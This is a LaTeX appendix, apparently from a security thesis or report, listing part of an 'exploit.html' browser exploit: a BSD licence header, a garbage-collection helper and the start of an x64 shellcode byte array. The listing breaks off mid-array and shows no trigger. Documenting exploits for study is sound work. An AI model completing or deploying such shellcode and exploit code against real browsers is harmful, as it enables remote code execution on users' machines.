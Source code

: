 \documentclass[a4paper,twoside,12pt]{book}
\begin{document}
\begin{appendices}
\begin{lstlisting}[label={lst:firstLst},caption={Example of a "exploit.html" file},escapeinside=``,basicstyle=\tiny]
	<script>
	/*
	BSD 2-Clause License
	Copyright (c) 2021, rajvardhan agarwal
	All rights reserved.
	Redistribution and use in source and binary forms, with or without
	modification, are permitted provided that the following conditions 
	are met:
	1. Redistributions of source code must retain the above copyright 
	   notice, this list of conditions and the following disclaimer.
	2. Redistributions in binary form must reproduce the above copyright 
	   notice, this list of conditions and the following disclaimer 
	   in the documentation and/or other materials provided with the 
	   distribution.
	THIS SOFTWARE IS PROVIDED BY THE COPYRIGHT HOLDERS AND CONTRIBUTORS 
	"AS IS" AND ANY EXPRESS OR IMPLIED WARRANTIES, INCLUDING, BUT NOT 
	LIMITED TO, THE IMPLIED WARRANTIES OF MERCHANTABILITY AND FITNESS 
	FOR A PARTICULAR PURPOSE ARE DISCLAIMED. IN NO EVENT SHALL THE 
	COPYRIGHT HOLDER OR CONTRIBUTORS BE LIABLE FOR ANY DIRECT, INDIRECT, 
	INCIDENTAL, SPECIAL, EXEMPLARY, OR CONSEQUENTIAL DAMAGES (INCLUDING, 
	BUT NOT LIMITED TO, PROCUREMENT OF SUBSTITUTE GOODS OR SERVICES; 
	LOSS OF USE, DATA, OR PROFITS; OR BUSINESS INTERRUPTION) HOWEVER
	CAUSED AND ON ANY THEORY OF LIABILITY, WHETHER IN CONTRACT, STRICT 
	LIABILITY, OR TORT (INCLUDING NEGLIGENCE OR OTHERWISE) ARISING IN 
	ANY WAY OUT OF THE USE OF THIS SOFTWARE, EVEN IF ADVISED OF THE 
	POSSIBILITY OF SUCH DAMAGE.
	*/
		function gc() {
			for (var i = 0; i < 0x80000; ++i) {
				var a = new ArrayBuffer();
			}
		}
		let shellcode = [0xFC, 0x48, 0x83, 0xE4, 0xF0, 0xE8, 0xC0, 
		0x00, 0x00, 0x00, 0x41, 0x51, 0x41, 0x50, 0x52, 0x51,
		0x56, 0x48, 0x31, 0xD2, 0x65, 0x48, 0x8B, 0x52, 0x60, 
		0x48, 0x8B, 0x52, 0x18, 0x48, 0x8B, 0x52, 0x20, 0x48, 
		0x8B, 0x72, 0x50, 0x48, 0x0F, 0xB7, 0x4A, 0x4A, 0x4D, 
		0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x3C, 0x61, 0x7C, 
		0x02, 0x2C, 0x20, 0x41, 0xC1, 0xC9, 0x0D, 0x41, 0x01, 
		0xC1, 0xE2, 0xED, 0x52, 0x41, 0x51, 0x48, 0x8B, 0x52, 
		0x20, 0x8B, 0x42, 0x3C, 0x48, 0x01, 0xD0, 0x8B, 0x80, 
		0x88, 0x00, 0x00, 0x00, 0x48, 0x85, 0xC0, 0x74, 0x67, 
		0x48, 0x01, 0xD0, 0x50, 0x8B, 0x48, 0x18, 0x44, 0x8B, 
		0x40, 0x20, 0x49, 0x01, 0xD0, 0xE3, 0x56, 0x48, 0xFF, 
		0xC9, 0x41, 0x8B, 0x34, 0x88, 0x48, 0x01, 0xD6, 0x4D, 
		0x31, 0xC9, 0x48, 0x31, 0xC0, 0xAC, 0x41, 0xC1, 0xC9, 
		0x0D, 0x41, 0x01, 0xC1, 0x38, 0xE0, 0x75, 0xF1, 0x4C, 
		0x03, 0x4C, 0x24, 0x08, 0x45, 0x39, 0xD1, 0x75, 0xD8, 
		0x58, 0x44, 0x8B, 0x40, 0x24, 0x49, 0x01, 0xD0, 0x66, 
		0x41, 0x8B, 0x0C, 0x48, 0x44, 0x8B, 0x40, 0x1C, 0x49,
		0x01, 0xD0, 0x41, 0x8B, 0x04, 0x88, 0x48, 0x01, 0xD0, 
		0x41, 0x58, 0x41, 0x58, 0x5E, 0x59, 0x5A, 0x41, 0x58, 

\end{lstlisting}
\end{appendices}
\end{document}
